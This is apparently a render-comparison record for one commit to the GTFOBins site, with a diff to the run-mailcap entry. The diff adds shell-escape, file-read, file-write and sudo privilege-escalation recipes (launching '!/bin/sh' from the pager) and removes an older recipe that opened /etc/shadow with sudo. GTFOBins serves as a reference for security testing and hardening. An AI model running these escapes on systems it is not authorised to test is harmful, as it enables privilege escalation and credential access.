

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/run-mailcap.md, in a window 1280 px wide. Shown: the whole page at 90% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Split run-mailcap into functions
Close #34.

```diff
--- a/_gtfobins/run-mailcap.md
+++ b/_gtfobins/run-mailcap.md
@@ -1,7 +1,22 @@
 ---
 functions:
+  shell:
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        run-mailcap --action=view /etc/hosts
+        !/bin/sh
+  file-read:
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: run-mailcap --action=view file_to_read
+  file-write:
+    - description: |
+        The file must exist and be not empty.
+
+        This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply.
+      code: run-mailcap --action=edit file_to_read
   sudo:
-    - code: |
-        sudo run-mailcap --action=edit /etc/shadow
-        :shell
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        sudo run-mailcap --action=view /etc/hosts
+        !/bin/sh
 ---
```
